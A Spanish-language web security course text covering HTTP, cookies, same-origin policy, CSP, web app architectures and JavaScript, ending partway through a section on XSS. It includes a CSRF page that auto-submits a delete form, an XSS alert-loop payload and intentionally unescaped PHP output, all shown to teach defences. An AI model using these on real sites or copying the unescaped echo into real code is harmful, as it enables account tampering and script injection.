





# Aplicaciones web

## World Wide Web

Según [MDN](https://developer.mozilla.org/en-US/docs/Glossary/World_Wide_Web), la _World Wide Web_ (Red Mundial Global o _web_) es un sistema de páginas web públicas interconectadas y accesibles a través de la Internet. 

Los documentos en la web son conocidos como _Hipertexto_ (_Hypertext en inglés_), ya que extienden el texto tradicional con funcionalidades como imágenes, videos, enlaces (_hipervínculos_ o _hyperlinks_) y aplicaciones interactivas.

Los recursos son accesibles a través de URLs (_Uniform Resource Locators_), las cuales pueden ser referidas dentro de los mismos documentos contenidos en ellas a través de _enlaces_.

La _web_ como la conocemos hoy fue inventada por [Sir Tim Berners-Lee](https://en.wikipedia.org/wiki/Tim_Berners-Lee), quien inventó también el primer navegador web, el protocolo HTTP, el lenguaje HTML y el concepto de _URLs_.

Hoy los estándares asociados a la WWW son desarrollados por el [_World Wide Web Consortium_ o _W3C_](https://www.w3.org/).

> [!COMMENT]
> El nombre **WWW** Es la razón por la que muchos sitios parten hasta el día de hoy con el subdominio _www_.

## HTTP

El _Protocolo de Transferencia de Hipertexto_ (HTTP) es el lenguaje que usan los clientes (_navegadores_) y servidores web para pedir y recibir documentos en la web.


### Estructura

A continuación describiremos brevemente la estructura de una consulta y de una respuesta HTTP básica, la cual afortunadamente para nosotros es legible como texto plano. 

{}

- **➡️ Ejemplo de consulta HTTP**

    ```http {linenos=true}
    POST /sample/url.html HTTP/1.1
    Host: dominio.cl
    Content-Type: application/json

    {"key": "value"}
    ```

- **⬅️ Ejemplo de respuesta HTTP**

    ```http {linenos=true}
    HTTP/1.1 200 OK
    Content-Type: text/html
    ...

    <html>
    ...
    ```
{}

#### ➡️ Verbos HTTP

La línea 1 de la **consulta** contiene como primer elemento **Verbo** de la consulta. Este puede ser `GET`, `POST`, `PUT`, `PATCH`, `DELETE`, `OPTIONS` o `HEAD` ([entre otros valores mencionados en MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Methods)), pero en la práctica y por razones históricas, los verbos más usados son `GET` y `POST`.

* **GET** es usado para consultas idempotentes, en las que no importa cuantas veces ellas se realicen, el resultado será el mismo. Por ejemplo, para realizar una búsqueda en un formulario. 
* **POST** Se usa en consultas no idempotentes, donde se requiere mandar parámetros más grandes o estructurados que los que sepueden enviar en la ruta entregada al servidor. **No es idempotente por convención**, es decir, cada consulta puede generar cambios adicionales a los de las consultas anteriores, incluso con los mismos parámetros. Se podría usar al enviar un formulario. Si repito esta consulta múltiples veces, es esperable que el formulario se envíe múltiples veces.

#### ➡️ _Path_ o Ruta

Indica el recurso específico que solicita el cliente al servidor. Puede representar un archivo en el servidor o no. Lo importante es que el servidor pueda usarlo para determinar qué acciones ejecutar al momento de recibir la consulta.

#### ↔️ Versión del protocolo

En la consulta, va al final de la primera línea. En la respuesta, va al inicio de la primera línea. Representa la versión del protocolo HTTP que se usará. Actualmente, existen 3 versiones de protocolos HTTP ampliamente usadas: `1.1`, `2` y `3`. Por simplicidad, no veremos en esta iteración del curso las versiones `2` y `3`,  ya que si bien son ampliamente utilizadas, el entendimiento de la versión 1 es suficiente para comprender la mayoría de las vulnerabilidades importantes y sus mitigaciones. 

#### ↔️ Cabeceras

Desde la línea 2 en adelante, tanto en consulta como respuesta, se definen pares de llaves y valores denominados *Cabecera HTTP*. A continuación definimos algunos de ellos, pero la lista completa se puede encontrar en [MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers):

* **➡️ Host**: Cabecera de consulta que determina el host con el cual se intentó hacer la solicitud. Lo agrega automáticamente el navegador web, definiendo su valor como el host de la URL visitada (más información sobre la URL en la sección **URLs**).
* **↔️ Content-type**: Define el tipo del contenido en el cuerpo de la consulta o de la respuesta, usando el estándar [_media type_](https://www.iana.org/assignments/media-types) de la [IANA](https://www.iana.org/).
* **↔️ Accept**: define una lista de tipos de formato de respuesta que acepta el cliente o el servidor.
* **➡️Cookie y ⬅️ Set-Cookie**: Cabeceras que permiten enviar _Cookies_ (definidas más adelante en la sección **Cookies**) del cliente al servidor (en el primer caso), o pedir al cliente de parte del servidor que guarde ciertos valores para futuras consultas (en el segundo caso). Las cookies se separan por `;`, y cada una tiene el formato `llave=valor`. En el caso de la llamada `Set-Cookie`, el servidor define también otras propiedades importantes que se verán más adelante.
* **➡️ Authorization**: Cabecera usada para enviar algún valor de autenticación no interactiva, con el objetivo de permitir el acceso del usuario a cierto contenido. 

Las cabeceras terminan cuando hay un salto de línea vacío. Con eso se da inicio al cuerpo de la consulta o de la respuesta.

#### ↔️ Cuerpo

En el caso de las consultas, métodos como `POST`, `PUT` y `PATCH` llevan parte de los argumentos de la consulta, en distintos formatos:

* `application/x-www-form-urlencoded`: Mismo formato de los parámetros GET en las consultas: los valores van codificados en formato `URLEncode` y separados por `&`. Cada parámetro se escribe en la estructura `llave=valor`.
* `application/json`: El cuerpo es un `JSON` válido.
* `multipart/form-data`: En este caso se reciben múltiples formatos. Cada formato tiene sus propias cabeceras y es separado por un `boundary` definido en la cabecera principal. En [MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/MIME_types#multipartform-data) se puede ver un ejemplo.

En el caso de las respuestas, se entrega el contenido del tipo de formato declarado en las cabeceras. Generalmente, un `HTML` o una respuesta de `API`, pero también formatos binarios como imágenes o videos (siempre y cuando se declare en la cabecera de la respuesta correspondiente para que el navegador sepa cómo interpretarlo).

#### ⬅️ Código HTTP

Presente en la primera línea de la respuesta. Representa el estado del procesamiento de la consulta realizada. Los códigos son números de 3 dígitos agrupados en tipo de respuesta:

* `100-199` son [_informacionales_](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Status#informational_responses).
* `200-299` son para [_respuestas exitosas_](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Status#successful_responses).
* `300-399` son para [_redirecciones_](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Status#redirection_messages).
* `400-499` son para [_errores del cliente_](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Status#client_error_responses) (consulta mal realizada, por ejemplo).
* `500-599` son para [_errores del servidor_](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Status#server_error_responses) (bugs, vulnerabilidades, caídas).

> [!COMMENT]
> Puedes ver todos los códigos definidos en [MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Status), [http.cat](https://http.cat/) o [http.dog](https://http.dog/), según prefieras

### URLs

El usuario [Alhadis](https://commons.wikimedia.org/wiki/User:Alhadis) de Wikimedia Commons elaboró esta imagen que muestra las partes de una URI (que es como una URL, pero generalizada):



* **_Scheme_ o Esquema**: El protocolo al que refiere la URI. En el caso de URLs, su contenido es suficiente para encontrar el recurso en una red.
* **_Userinfo_**: Información del usuario que desea acceder al recurso, cuando éste requiere autentificación previa. En el caso de HTTP, el valor en esta sección suele tener la forma `<usuario>:<contrasena>`, y el navegador lo codifica como una cabecera en un formato especial (_Authorization_ de tipo _Basic_).
* **_host_**: Una IP (o nombre DNS que resuelve a una IP) correspondiente a la dirección de la capa de red del sistema en el que se encuentra el recurso. Si se omite este y los valores previos, se asume que el recurso está en el mismo servidor que en el que se encontró el enlace.
* **_port_**: Puerto TCP o UDP al que hay que conectarse para poder acceder al recurso. Se puede omitir y deducir del protocolo usado (443 para HTTPS, 80 para HTTP), pero si el servidor usa un puerto no estándar, se debe explicitar acá.
* **_path_**: Ruta única que permite al servidor web interpretarla y encontrar el recurso solicitado. Inicialmente casi siempre mapeaba con una ruta del sistema de archivos del servidor web, pero con el desarrollo de aplicaciones web dinámicas, esto no siempre es así.
* **_query_**: Parámetros de tipo _GET_ entregados al servidor web en una consulta (más detalles en la siguiente sección)
* **_Fragment_**: Parámetro no entregado al servidor y usado por el navegador web. Permite referir a un elemento específico del DOM (lo veremos con más detalle en la sección de Javascript).

### Cookies de sesión

El protocolo HTTP por definición es sin estado, es decir, cada consulta es tratada como una consulta nueva en la capa HTTP.

Sin embargo, en la capa específica de la aplicación web que estamos ejecutando, sí podemos usar algunos de los recursos HTTP para mantener persistencia de sesiones. En caso contrario, el usuario debería autenticarse cada vez que quiere hacer algo, lo que no es muy usable que digamos.

Para esto, existe el estandar de las **cookies**, que son valores enviados por el navegador web de forma automática que le permiten al servidor recordar algunas cosas del usuario (por ejemplo, preferencias o un ID para hacerle tracking en publicidad).

#### Parámetros de las Cookies

Las cookies pueden ser configuradas por el servidor con ciertas opciones para hacerlas más seguras, descritos en la sección correspondiente de [MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies):

* **_expires_**: Define cuándo la cookie expira. Si no se define, expira al cerrar el navegador. Si el servidor desea eliminar una cookie del cliente, puede enviar una cabecera `Set-Cookie` con el parámetro `Expires` en el pasado.
* **_secure_**: Evita que la cookie se mande en conexiones no cifradas (HTTP), dificultando su intercepción por atacantes que pueden leer la red.
* **_httpOnly_**: La cookie no puede ser accedida por código Javascript, dificultando ataques de tipo XSS.
* **_domain_**: Si no está definido este parámetro, la cookie es enviada solo en el FQDN que la recibe. Si está definido, aplica para el FQDN definido y sus subdominios. **no se puede definir en un FQDN que no sea el mismo que la setea o un subdominio**.
* **_path_**: Permite que una cookie aplique solo para un subdominio, y no para el sitio completo.
* **_sameSite_**: Evita enviar la cookie en ciertas situaciones (como si ingreso al sitio desde un dominio distinto). El valor por defecto es `Lax`. El valor `strict` casi siempre rompe el comportamiento de algunas aplicaciones (por ejemplo, si la cookie de sesión de un sitio fuese `strict`, cada vez que visites el sitio desde un link externo aparecerás como invitado, pero al actualizar la página o ingresar directamente, apareceras logueado). El valor `none` no es recomendado.

Además, si el nombre de una cookie parte con el prefijo `__Host-`, los navegadores la interpretarán como si tuviera las flags `secure`, `path=/` y `domain=null`. Si la cookie parte con el prefijo `__Secure-`, se asume que solo puede ser enviada por HTTPS.

> [!COMMENT]
> ¿Qué pasa si asocio una cookie a un TLD? ¿Se envía a todos los sitios? ¿Puede un sitio en el mismo TLD consultar esa cookie?

(Revisa la sección de DNS para saber más sobre qué es un TLD).

Los navegadores evitan que se puedan asociar cookies en TLDs. Esto se hace manteniendo [una lista de sufijos pública](https://publicsuffix.org/). Esta lista representa todos los dominios de orden superior que poseen subdominios administrados por otras entidades. En Chile, están los siguientes sufijos públicos:

* `.cl`: El TLD de Chile.
* `.co.cl`: ¿Parece que lo usa Entel para sitios web corporativos?
* `.gob.cl`: El sufijo usado por el [Gobierno de Chile](https://www.gob.cl)
* `.gov.cl`: Una variación en inglés del anterior. Generalmente redirige a `gob.cl`.
* `.mil.cl`: Usado por el Ejército de Chile.

> [!TIP]
> Revisa cómo funcionan las cookies en los subdominios de `uchile.cl`. ¿Puedes consultar una cookie de U-Cursos en una aplicación en el subdominio DCC? ¿Y de UCampus o de Mi UChile? Recuerda que si encuentras algo sospechoso, puedes comunicárselo a la [Vicerrectoría de Tecnologías de Información](https://vti.uchile.cl/) o hablarlo con el equipo docente del curso.

> [!TIP]
> Considerando que cada unidad académica tiene su propia área informática que desarrolla sus sitios internos, ¿debería `uchile.cl` ser considerado un sufijo público?

#### Cookies de sesión

Cuando las cookies se usan para mantener una sesión iniciada, se denominan **Cookies de sesión**.

> [!TIP]
> Antes de continuar, piensa en cómo implementarías un sistema que permita entregar un valor a cada usuario una vez se autentica, el cual luego es relacionado con ese usuario por un tiempo indeterminado. ¿Cuánto tiempo debería ser válido este valor? ¿Qué pasa si el usuario lo pierde? ¿Cómo evitas que otro usuario lo adivine?

> [!COMMENT]
> El nombre _cookie_ viene del término [_magic cookie_](http://www.catb.org/~esr/jargon/html/M/magic-cookie.html). Según el Jargon File, es un valor que se pasa entre rutinas y programas de forma invariable, que permite hacerles seguimiento. Son opacos muchas veces, por lo que no importa que el proceso receptor los entienda, solo que los pase tal cual los recibió.

En este ejemplo la cookie de sesión es un valor aleatorio alfanumérico, que el usuario envía cada vez que quiere seguir interactuando con el sitio web para no tener que volver a iniciar sesión.



Algunos ejemplos de implementaciones de cookies:

* **Valor aleatorio**: Para evitar que un atacante adivine el valor de la cookie de un usuario, el valor de ella debería ser muy aleatorio y no relacionable con el usuario correspondiente. Este valor aleatorio debe referir, en el servidor, a una estructura de datos que contenga todos los datos de la sesión correspondiente (como usuario logueado, preferencias, entre otros). En algunos casos, se usan bases de datos. En otros, sistemas tipo `redis` o `valkey`. También se usan archivos cuyo nombre es el valor aleatorio de la cookie.
* **Valor firmado (y cifrado opcionalmente)**: El valor en la cookie puede ser un JSON o similar que contiene todos los datos de la sesión del usuario específico, el cual puede o no estar cifrado dependiendo de la sensibilidad del contenido del dato identificatorio. De esta forma, no es necesario guardar información de la sesión en el servidor. Independiente de si es o no secreto, **debe estar firmado** (veremos esto con más detalle en criptografía) para evitar que un atacante genere cookies de otros usuarios solo cambiando el contenido de una válida. Además, es recomendable que el valor incluya campos adicionales, como fechas de vencimiento acotadas, los cuales deben ser también validados para evitar ataques de tipo _replay_ (que un atacante se robe una cookie y pueda usarla por siempre). Un ejemplo de este tipo de cookies son los _JWT_ o _JSON Web token_, definidos en el [RFC 7519](https://www.rfc-editor.org/info/rfc7519/).

> [!TIP]
> Piensa sobre los pros y los contras de tener cookies centralizadas versus tenerlas descentralizadas con vida limitada. En cada caso, ¿Qué puede afectar la eficiencia de la validación de la sesión? ¿Puedes cerrar sesión centralizadamente?. Propon modificaciones para cada caso que mitiguen los problemas encontrados.

### Tipos de contenido

A través de HTTP puedes transmitir contenido de diversos tipos.

* **HTML y CSS**: El lenguaje de marcado de hipertexto es el estándar de comunicación en HTTP, aunque no es obligatorio usarlo todo el tiempo para desarrollar aplicaciones web hoy en día (ver _tipos de aplicaciones web_ más adelante para más información). Hoy (al igual que CSS, lenguaje de estilo que permite definir cómo se ve un sitio web) es un estándar vivo, que cambia periódicamente sin versiones específicas. Puedes encontrar una especificación completa en la [MDN](https://developer.mozilla.org/en-US/docs/Web/HTML).
* **Texto plano**: Muchos navegadores interpretan el texto plano recibido en una respuesta HTTP como una página HTML sin estilo. Dependiendo de la codificación del texto, es posible que no se muestre correctamente.
* **Contenido binario**: Para visualizar y descargar imágenes, videos, documentos y otros archivos, HTTP codifica esta información en formatos especiales y las envía como respuesta a las consultas. Existen algunas optimizaciones que permiten a un servidor HTTP estático soportar descargas en paralelo o retomar descargas desde puntos intermedios de los archivos, pero dependerán del tipo de archivo y de servidor.
* **JSON y APIs**: Un caso de uso común en HTTP, potenciado por su uso en integraciones máquina a máquina y aplicaciones web de tipo _SPA_ que veremos más adelante.


#### Contenido incrustado

HTML permite incrustar distintos tipos de contenido en páginas web. A veces, este contenido puede provenir de otros dominios y servidores, lo que si bien es cómodo para quien lo hospeda (ya que no tiene que hospedarlo esa persona por su cuenta), en algunos casos puede abrir brechas de seguridad.

Algunos tipos de contenido incrustable:
* **Imágenes** con el tag ``
* **Videos** con el tag `<video>`
* **Scripts javascript** con el tag `<script>`
* **Planillas de estilo** con el tag `<link>`
* **Otros sitios web** con el tag `<iframe>`
* **Tipografías** usando la propiedad css `@font-face`
* **Otros objetos** con el formato [oEmbed](https://oembed.com/)

> [!TIP]
> ¿Qué puede hacer la persona que hospeda el contenido enlazado o incrustado por otras personas en sus sitios para afectar esos otros sitios?

#### _Same Origin Policy_ o SOP

¿Cómo defino qué tipo de contenido puede ser enlazado en mi sitio? Existe un estándar seguido por los navegadores web llamado [_same origin policy_](https://developer.mozilla.org/en-US/docs/Web/Security/Defenses/Same-origin_policy), que limita los recursos que pueden ser afectados por recursos externos de los sitios web. La especificación viva de [HTML](https://html.spec.whatwg.org/multipage/nav-history-apis.html#cross-origin-objects) explica cómo este estándar opera.

Algunas reglas muy resumidas sobre SOP:

* Recursos con URL `about:blank` o `javascript` heredan el origen de quién los creó.
* El recurso en un subdominio puede cambiar su origen a un dominio padre usando la API `document.domain`.
* En general, se permiten escrituras e incrustaciones a otros orígenes. Las lecturas son maś restringidas ya que pueden exfiltrar información sensible.

#### _Content Security Policy_ o CSP

Son un conjunto de cabeceras que permiten definir explícitamente qué tipo de contenido externo (o incluso interno) se puede incrustar o ejecutar como script en un sitio web, especialmente para evitar ataques de tipo _XSS_, definidos más abajo. En el sitio de [MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP) se explica con más detalle como funciona y cómo se configura.

#### Integridad del contenido incrustado

```html
<script src="https://example.com/example-framework.js"
       integrity="sha384-oqVuAfXRKap7fdgcCY5uykM6+R9GqQ8K/uxy9rx7HNQlGYl1kPzQho1wx4JwY8wC"
       crossorigin="anonymous"></script>
```

En algunos tipos de contenido incrustado (`script` y `link`), es posible definir una propiedad `integrity` con un hash que es comprobado por el navegador antes de incrustarlo. De esta forma, si un atacante cambia el contenido de otro sitio, este si bien dejará de ser entregado, no será cargado. Puedes ver más información sobre esto en [MDN](https://developer.mozilla.org/en-US/docs/Web/Security/Subresource_Integrity).

## Tipos de aplicaciones web

Una aplicación web funciona muchas veces en conjunto con un servidor web, es decir, un programa que recibe consultas HTTP y elabora respuestas para ellas.

Los servidores web por si solos se hacen cargo de la entrega de archivos estáticos específicos, como imágenes, páginas estáticas (que no se modifican según cookies o las entradas de los usuarios) y documentos. Sin embargo, no se hacen cargo del procesamiento de consultas más complejas, como páginas o consultas de API creadas _al vuelo_ (en tiempo real) para usuarios logueados con datos almacenados en bases de datos u otras estructuras.

La siguiente imagen muestra cómo funcionan en general los servidores web:




### _Server Side Rendering_ 

Corresponde a todo tipo de generación de respuestas HTTP (generalmente en HTML) del lado del servidor.

#### _CGIs_

La primera implementación de páginas web dinámicas se realizó a través de la tecnología CGI (_Common Gateway Interface_). En la práctica, es permitirle a un servidor web ejecutar un _script_ de código cuya salida es un cuerpo HTML ya formulado. CGI define el estandar que permite pasarle al script argumentos comunes, como la URL y los headers de la consulta HTML, los parámetros y el cuerpo enviado por el usuario. Todos estos parámetros pueden ser usados por el script para formatear su respuesta. El Script también puede conectarse a recursos externos accesibles desde su red (bases de datos, servidores de archivos, etc) para personalizar esta respuesta.

Algunos lenguajes usados para hacer aplicaciones web con esta tecnología son PHP, Perl e incluso Python (usando las librerías correspondientes).

#### Interfaces entre servidores y aplicaciones web

Para conectar aplicaciones web cada vez más complejas, se desarrollaron distintos estándares y tecnologías, muchos de ellos dependientes de los lenguajes de programación de las mismas aplicaciones: 

* **WSGI y ASGI en Python**: Estándares que permiten desarrollar aplicaciones web en Python usando servidores web en el mismo lenguaje. Ambos son soportados por los framework más conocidos del lenguaje, como FastAPI, Flask y Django. En el caso de ASGI, se facilita la ejecución de tareas asíncronas, en las que el servidor web del lenguaje determina cuántas instancias de la aplicación ejecutar en paralelo según carga del servidor y cantidad de consultas.
* **Rack y Puma en Ruby**: Similar al caso anterior, pero orientado a frameworks web para Ruby, como Rails y Sinatra.
* **Servlets en Java**: Aplicaciones como Tomcat ejecutan un tipo de aplicación Java especial para web, denominado [Jakarta Servlet](https://jakarta.ee/specifications/servlet/).


### _Single Page Applications_ o SPAs.

Corresponde a aplicaciones web con un _backend_ y un _frontend_ bien definido. El _backend_ corre en el servidor y contesta consultas programáticas del _frontend_ (aplicanción en Javascript que genera dinámicamente el contenido del sitio a partir de los datos recibidos por el backend) siguiendo una API conocida por éste. Facilita contar con equipos de desarrollo especializados y separados, donde lo único necesario es que las interfaces utilizadas estén bien definidas y sean conocidas por ambas partes.

Una ventaja de las SPAs es que, si se guardan datos en caché de forma adecuada, estas pueden correr sin necesidad de conectarse continuamente a los servidores. Sin embargo, delegan la tarea del renderizado y modificación del sitio a una aplicación que corre del lado del cliente, lo que puede generar un mayor uso de recursos que en aplicaciones de tipo SSR.

Ejemplos de frameworks de frontend para desarrollar SPAs son _React_, _Vue_, _Svelte_ y _Angular_.

### _Back-to-front_ y otros modelos híbridos

La complejidad de algunos frontend de tipo SPA generó la necesidad de enviar el código javascript de forma parcelada y limitada a los usos del usuario. Esto derivó la creación de técnicas de _Server Side Rendering_ solo para el frontend, contando ahora con tres componentes distintos en una aplicación web:

* **El backend** que maneja los datos y sirve las APIs que usa el _frontend_.
* **El backend para el front** que genera dinámicamente el código javascript que recibirá el navegador.
* **El frontend** recibido desde el componente anterior que realiza las consultas al backend de datos.

Algunos framework que realizan estas tareas son _SvelteKit_, _Vite_ y _Next.js_.

> [!TIP]
> ¿Es una debilidad exponer todo el código del front a todos los usuarios o listar públicamente las APIs de una aplicación? Comenta pros y contras de esta medida en términos de lo que podría hacer un atacante con esta información.


## Ejecución de código del lado del cliente

Como mencionamos ya en la sección anterior, el estandar web permite no solo la muestra de contenido en HTML, sino también la ejecución de código del lado del cliente. Este código hoy día toma la forma de dos tipos de lenguaje: `JavaScript` y `WebAssembly`.

### JavaScript 

JavaScript es un lenguaje de programación interpretado y creado para el navegador Netscape en 1995 por Brendan Eich (co fundador de Mozilla y de Brave), con el objetivo de darle dinamismo a las páginas web luego de cargadas. A pesar del nombre, no tiene nada que ver con Java. Hoy se usa como lenguaje de programación no solo para sitios web, sino también para proyectos de IoT y sistemas Embeeded () y para código de servidores (vía Node.js o Deno).

Hoy el desarrollo y evolución del lenguaje es llevado por el grupo [TC39](https://tc39.es/) de [ECMA International](https://ecma-international.org/).

Existe una versión tipada que puede ser transpilada a JavaScript llamada [TypeScript](https://www.typescriptlang.org/), la cual es mantenida y desarrollada por Microsoft pero no es ejecutable nativamente por los navegadores.

#### APIs de JavaScript en navegadores web

* **[_Document Object Model_ o DOM](https://developer.mozilla.org/en-US/docs/Web/API/Document_Object_Model)**: Los navegadores web que soportan JavaScript ofrecen una API especial denominada _Document Object Model_ o DOM, la cual permite manipular el contenido de una página web dinámicamente, a través de código gatillado por eventos. El DOM se representa como un árbol con distintos tipos de nodos. Cada nodo corresponde a un _tag_ HTML específico y es editable usando la API correspondiente.
* **APIs [XHR](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest) y [Fetch](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch)**: Las APIs `fetch` (y anteriormente `XMLHTTPRequest`) permiten a un navegador ejecutar código a partir de una llamada HTTP a un recurso externo. Estas llamadas permiten a los sitios web cargar información de forma dinámica.
* **[API de Historial](https://developer.mozilla.org/en-US/docs/Web/API/History_API)**: Permite modificar el historial del navegador. Usada fundamentalmente por aplicaciones de tipo SPA para simular comportamientos similares a los de los sitios de tipo _SSR_.
* **[API de Websockets](https://developer.mozilla.org/en-US/docs/Web/API/WebSockets_API)**: Los _websockets_ son una tecnología de comunicación en tiempo real (al contrario de HTTP en su versión estándar), la que permite a clientes web "subscribirse" a un canal para recibir notificaciones, las que luego pueden ser usadas para actualizar la página modificando el DOM con JavaScript o WebAssembly.
* **[API de _Service Workers_](https://developer.mozilla.org/en-US/docs/Web/API/Service_Worker_API)**: Permite definir _background threads_ asociados a sitios que ejecuten tareas de forma periódica o asíncrona, liberando el hilo principal de la aplicación y ejecutando tareas de forma más eficiente o mientras el sitio no está activo. Actores de amenaza [pueden usarla](https://dl.acm.org/doi/fullHtml/10.1145/3471621.3471845) para [ensamblar malware](https://cyberpress.org/service-worker-malware-assembly/), [ejecutar criptomineros](https://stackoverflow.com/questions/46476914/site-with-a-bitcoin-miner-script), [ejecutar ataques DoS](https://www.zdnet.com/article/new-browser-attack-lets-hackers-run-bad-code-even-after-users-leave-a-web-page/) o mostrar notificaciones fraudulentas a usuarios de forma continua, pero también hay casos de uso legítimos como las notificaciones en tiempo real en sitios web.


#### 🐞 _Cross Origin Resource Sharing_ o CORS

Supongamos que una aplicación de tipo _SPA_ provee una API en el dominio `api.hackerlab.cl`, la cual es usada por el front que vive en `hackerlab.cl`.

Los navegadores no deberían dejar ejecutar llamadas `XHR` o `Fetch` a un _origen_ (tupla domain, scheme y port) distinto al del sitio web visitado. Si uno quiere autorizar este acceso, debe agregar en el servidor de la API una cabecera llamada `Access-Control-Allow-Origin`, con el dominio autorizado a consultar.

Puedes revisar la [referencia en MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CORS) para más información.

#### 🐞 _Cross Site Request Forgery_ o CSRF

Supongamos ahora que el sitio `hackerlab.cl` es de tipo _SSR_ y tiene un formulario en la ruta `/usuario/eliminar`. Un `POST` a esta ruta permite eliminar 

Supongamos también que un atacante crea un sitio en un dominio distinto (`malicioso.cl`) con un form que apunta a `https://hackerlab.cl/usuario/eliminar`, enviándolo automáticamente al visitar el sitio. El código fuente de ese formulario sería algo así:

```html
<html>
    <head>
        <title> totalmente no malicioso
    </head>
    <body>
        <script type="text/javascript">
            document.onload = function() {
                document.querySelector("form").submit() // Al cargar el sitio, enviar el formulario
            };
        </script>
        <form action="https://hackerlab.cl/usuario/eliminar" method="post">
        </form>
    </body>
</html>
```

> [!TIP]
> ¿Cómo podrías evitar que lo anterior pasara siendo la persona que desarrolla hackerlab.cl? Piensa unos minutos antes de seguir leyendo.

Este tipo de ataque se llama _Cross-Site Request Forgery_ o CSRF, y la solución estándar al problema anterior es agregar en todos los formularios un valor especial y aleatorio, único por sesión de usuario, denominado _Token Anti-CSRF_.

Así, el sitio, al recibir un post para cualquier acción con impacto importante, puede validar que el token exista dentro de los parámetros del formulario y que su valor sea el esperado, antes de ejecutar la acción relacionada con la ruta llamada.

El valor es incrustado automáticamente por algunos _framework_ web, o es almacenado en las cookies del sitio (sin la flag _httpOnly_) y luego incrustado programáticamente via JavaScript por el front de la aplicación web. Una aplicación externa que quiera ejecutar el ataque ya mostrado necesitará conseguir este valor primero, y mientras no exista una forma directa de obtenerlo (una llamada `fetch` no es posibilidad si el _CORS_ está bien configurado, ni tampoco podrá obtener las cookies de otros sitios debido a las reglas de acceso de cookies de los navegadores), no podrá forzar al usuario a realizar una llamada en su nombre.

> [!TIP]
> Propón una forma en la que la flag `SameSite` podría ayudar a mitigar este tipo de ataques con algunas cookies.

#### 🐞 _Cross Site Scripting_ o XSS

Supongamos ahora que tenemos un foro en `foro.hackerlab.cl`, y que el formulario de login está en la misma página en la que las personas publican mensajes.

Supongamos que este sitio recibe mensajes de sus usuarios y estos se muestran en el home. Un usuario registrado y malicioso publica el siguiente mensaje:

```
Lean esto es muy importante: <script>while (1) alert("hola!");</script>
```

Supongamos también que el sitio pega el texto tal cual como se recibe en la página al mostrar el post tanto en la lista de posts recientes como en el detalle del post específico (en este ejemplo usaremos PHP, donde `echo` equivale a un `printf()` del valor inmediatamente después):

```php
...
<h1> <?php echo $titulo; ?> </h1>
<p> <?php echo $mensaje; ?> </p>
...
```

